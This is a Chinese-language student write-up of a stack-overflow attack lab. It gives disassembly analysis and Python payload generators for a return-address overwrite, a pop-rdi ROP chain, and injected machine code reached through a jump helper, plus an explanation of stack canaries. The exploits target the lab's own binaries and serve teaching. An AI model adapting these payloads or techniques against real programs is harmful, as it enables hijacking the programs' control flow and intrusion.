



# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 
- **分析**：
通过反汇编代码分析 func 函数（地址 0x401232），发现其内部调用了 strcpy 函数将用户输入的字符串复制到栈上的缓冲区。
目标缓冲区位于栈帧的 rbp - 0x8 处，函数的返回地址位于 rbp + 0x8 处。
前 16 个字节作为填充，用于覆盖缓冲区和旧的 RBP。
紧接着的 8 个字节写入目标函数 func1 的地址（0x401216）。

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
``` python
import struct

padding = b'A' * 16

target_address = struct.pack('<Q', 0x401216) 
payload = padding + target_address

with open("ans1.txt", "wb") as f:
    f.write(payload)
```


- **结果**：附上图片



### Problem 2:
- **分析**：
目标缓冲区位于栈帧的 rbp - 0x8 处，函数的返回地址位于 rbp + 0x8 处，和前一问一样
目标函数 func2（地址 0x401216）在开头检查第一个参数是否等于 0x3f8，所以直接跳转到 func2肯定是不行的

在程序中找到了 pop_rdi 函数，其结尾处 0x4012c7 包含指令序列 pop %rdi; ret。先用16字节填充缓冲区和栈底，再用0x4012c7覆盖原返回地址，之后放上0x3f8这个参数值，最后放0x401216这个目标函数地址


- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
``` python
import struct

padding = b'A' * 16

pop_rdi_addr = 0x4012c7  

arg1 = 0x3f8


func2_addr = 0x401216

rop_chain = struct.pack('<Q', pop_rdi_addr) + struct.pack('<Q', arg1) +  struct.pack('<Q', func2_addr)

payload = padding + rop_chain

with open("ans2.txt", "wb") as f:
    f.write(payload)
```

- **结果**：附上图片



### Problem 3: 
- **分析**：
func 函数中调用 memcpy 向 rbp-0x20 处的缓冲区写入 64字节。栈布局为32字节缓冲 + 8字节 rbp+ 8字节返回地址 = 40字节。剩余24字节，空间有限，无法像前两问一样写，

注意到一个辅助函数 jmp_xs (0x401334)，算出 saved_rsp + 0x10 的地址并跳转，而saved_rsp + 0x10 恰好指向缓冲区的起始位置。

func1 要求参数 %rdi 为 0x72，因此，要写mov rdi, 0x72  ；mov rax, 0x401216 ； call rax这段汇编代码的机器码放在开头。


- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
``` python
import struct

shellcode = (
    b"\x48\xc7\xc7\x72\x00\x00\x00"  
    b"\x48\xc7\xc0\x16\x12\x40\x00"  
    b"\xff\xd0"                      
)

padding_length = 40 - len(shellcode)
padding = b'\x90' * padding_length 


jmp_xs_addr = 0x401334
ret_addr = struct.pack('<Q', jmp_xs_addr)

payload = shellcode + padding + ret_addr


with open("ans3.txt", "wb") as f:
    f.write(payload)
```


- **结果**：附上图片


### Problem 4: 
- **分析**：体现canary的保护机制是什么
Canary 是一种针对栈溢出攻击的防御机制。其核心思想是在栈帧的局部变量和返回地址之间插入一个随机生成的“哨兵值”。深入解释的话，函数开始时，从线程局部存储中读取一个随机数放入栈中，函数返回前，再次读取栈中的这个值，与原值进行校验。由于栈溢出通常是连续的内存写入，攻击者若想覆盖返回地址，必然会先覆盖位于它前面的 Canary 值。一旦校验发现 Canary 被修改，程序会直接报错退出。

在 func 函数（0x135d）中，我们可以清晰地看到 Canary 的设置与检查过程：
136c: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax  ; 
1373: 00 00
1375: 48 89 45 f8             mov    %rax,-0x8(%rbp); 

Canary 值存入了当前栈帧的 rbp-0x8 处

在本题中，cmpl  $0xffffffff,-0xc(%rbp) 检查栈变量 [rbp-0xc] 是否等于 -1，如果等于1则直接调用函数。而变量 [rbp-0xc] 的值直接来源于用户的输入


- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
直接运行程序，前两步输入任意字符串，第三步输入-1即可


- **结果**：附上图片


## 思考与总结
本次实验的核心在于利用了 C 语言中不安全的字符串操作函数（如 strcpy, memcpy）缺乏边界检查的特性，我深刻理解了栈内存布局的关键矛盾：栈的生长方向是从高地址向低地址生长，而数据的写入方向是从低地址向高地址填充（数组/缓冲区写入）。 正是这种方向上的“对撞”，使得位于低地址的缓冲区一旦溢出，就会顺势覆盖位于高地址的保存的寄存器和返回地址，从而赋予了攻击者劫持控制流的能力。

problem1是最基础的覆盖，没什么好说的。在problem2中我学习了利用程序中现有的指令片段，比如 pop rdi; ret，来构造调用链。problem3中，面对更复杂的逻辑，我学习了如何将汇编指令编写为机器码并注入栈中。Problem 4比较巧妙，它打破了思维定式，说明attack不一定只有缓冲区溢出这种方式，通过读汇编代码，能直接找到解题方法。


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/

教材: Randal E. Bryant, David R. O'Hallaron. Computer Systems: A Programmer's Perspective (3rd Edition). Pearson, 2015.


